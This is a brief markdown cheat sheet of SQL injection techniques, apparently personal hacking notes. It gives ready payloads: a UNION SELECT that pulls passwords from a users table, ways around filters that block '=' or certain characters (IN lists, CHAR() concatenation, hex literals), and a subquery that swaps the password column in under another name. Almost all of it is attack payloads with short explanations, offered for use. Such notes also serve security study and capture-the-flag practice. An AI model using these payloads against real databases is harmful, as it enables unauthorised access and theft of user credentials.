 # Basic

## Select injection

#### Basic

`-100 UNION SELECT password from users`

union the results of the intended query with more information (just make sure number of columns match)

#### Col Num Nismatch

you can use `join` instead of union

## Blacklists

#### Blocked "="?

`id = 1` can also be written as `id in (1)`

#### Blocked characters?

As long as you can use string concatination you can replace most fields where a term is blocked with

`(select CHAR(97)||CHAR(98)...)`

in addition remember sql lets you have hex strings in leu of text.

`0x12345`


## Injecting into table field

if you have something like

`select id from <injection>`

utilise sub queries, this will grab the password field instead of the id field and give it a alias so the query compiles

`select id from (select password as id from users)`

##
